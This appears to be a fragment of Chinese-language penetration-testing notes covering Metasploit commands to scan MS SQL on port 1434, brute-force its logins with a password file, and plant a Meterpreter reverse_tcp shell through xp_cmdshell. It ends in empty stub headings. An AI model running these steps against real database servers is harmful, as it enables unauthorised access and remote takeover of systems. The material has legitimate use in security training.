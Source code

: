 2. 攻击MS SQL，TCP默认端口一般为1433，UDP默认端口为1434

```bash
msf > nmap -sU xxx.xxx -p1434
msf > use scanner/mssql/mssql_ping
```

3. 暴力破解MS SQL

```bash
msf > use scanner/mssql/mssql_login
msf > show options
msf > set PASS_FILE /xxx/xxx/xxx.txt
...
msf > exploit
```
补充：Fast-Track工具

4. 注入Meterpreter shell
因为是XP系统，所以我们利用xp_cmdshell进行交互，进一步的思路是上传Meterpreter shell来更深入的渗透。  
方便的是，MSF已经含有一个**模块**，可以实现通过xp_cmdshell来植入任意Metasploit攻击载荷（如Meterpreter），过程如下：

```bash
msf > use windows/mssql/mssql_payload
msf > show options
# 设置自己选择的payload
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST //TODO
msf > set LPORT 443
...
msf > exploit
```


## 杂

### 常用端口及服务

离线网站保存

### 

